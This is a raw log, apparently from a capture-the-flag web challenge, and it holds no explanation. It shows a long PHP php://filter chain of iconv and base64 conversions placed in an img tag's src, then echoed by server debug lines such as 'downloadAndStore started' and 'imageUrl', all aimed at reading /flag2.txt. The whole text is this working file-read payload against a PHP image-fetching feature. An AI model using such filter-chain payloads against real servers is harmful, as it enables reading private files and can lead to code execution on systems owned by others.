 ```log
<img src="php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/flag2.txt">
===========================
matches[2] = php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/flag2.txt
downloadAndStore started
imageUrl = php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/flag2.txt
```
